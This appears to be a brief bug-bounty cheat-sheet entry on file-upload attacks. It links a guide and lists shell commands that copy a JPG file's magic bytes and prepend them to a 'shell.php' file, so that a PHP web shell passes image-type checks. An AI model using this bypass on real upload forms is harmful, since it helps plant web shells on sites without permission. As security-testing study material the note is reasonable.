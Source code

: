 # File Upload


https://www.bugbountyhunter.com/guides/?type=fileuploads

```
head filename.php | xxd
```

Extracting magic bytes from a jpg file to replace in a php file

```
head -c 20 filename.jpg > magicbytes
```

next combine magicbytes and php file

```
cat magicbytes shell.php > shell_magicbytes.php
```